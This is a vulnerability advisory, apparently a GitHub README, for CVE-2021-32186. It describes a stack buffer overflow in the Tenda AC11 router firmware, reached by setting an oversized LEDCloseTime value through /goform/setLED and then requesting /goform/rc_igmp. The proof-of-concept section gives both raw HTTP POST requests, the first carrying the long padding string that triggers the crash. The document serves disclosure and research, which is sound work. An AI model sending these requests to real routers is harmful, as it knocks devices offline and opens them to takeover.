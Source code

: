 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_igmp` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800227AC` (page `/goform/rc_igmp`).

This function uses `strcpy` to copy the string pointed by `v3` into a stack buffer pointed by `v5`. `v3` is directly retrived from the nvram variable `led_time` without any security check.

![1](1.PNG)

the `led_time` variable can be controlled by attacker by calling the function `sub_800D50A4`(page `/goform/setLED`) which gets in a parameter called `LEDCloseTime` into varialbe `v10`, which can then be used to assign to the `led_time` variable.If `v10` is different from the original value of nvram variable `led_time`(variable `v13` and `v14`),then the nvram variable `led_time` will be set as `v10`

![2](2.PNG)

So by first setting the `LEDCloseTime` and then requesting the page `/goform/rc_igmp`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/setLED HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_igmp HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@leonW7](https://github.com/leonW7), and [@Lnkvct](https://github.com/Lnkvct) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.

## CVE ID
CVE-2021-32186
